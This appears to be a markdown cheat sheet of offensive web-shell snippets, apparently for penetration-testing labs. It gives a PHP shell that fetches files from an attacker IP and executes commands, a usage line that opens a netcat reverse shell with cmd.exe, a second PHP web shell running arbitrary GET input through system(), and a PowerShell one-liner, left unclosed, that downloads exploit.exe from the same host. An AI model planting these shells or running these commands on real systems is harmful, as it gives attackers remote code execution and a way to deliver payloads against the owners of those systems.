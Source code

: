 ## PHP Shell
*fupload* function is used to upload files to the remote machine\
*fexec* function is used to execute commands on the remote machine

usage:
```
shell.php?fupload=nc.exe
```
```
shell.php?fexec=nc.exe 10.10.14.107 1234 -e cmd.exe
```
code:
```
<?php 
 if (isset($_REQUEST['fupload'])) {
 file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.107:8000/" . $_REQUEST['fupload']));
 };
 if (isset($_REQUEST['fexec'])) {
 echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
 };
?>
```

## PHP Web Shell
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

## Powershell File uploader
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.107:9005/exploit.exe', 'c:\Users\Public\Downloads\exploit.exe'
```

